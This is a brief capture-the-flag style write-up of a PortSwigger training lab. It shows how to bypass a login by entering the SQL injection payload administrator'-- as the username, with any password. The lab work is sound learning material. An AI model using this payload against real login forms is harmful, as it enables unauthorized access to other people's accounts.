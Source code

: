 ```yaml
---
title: 🕸️ PSA - SQLi 2 - SQLi Allowing Authentication Bypass
date: 2023-03-02
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

## ✅ Solution

In the Username field of the Login form:

````text
administrator'--
````

Anything can be put in the password field:

````text
abc
````
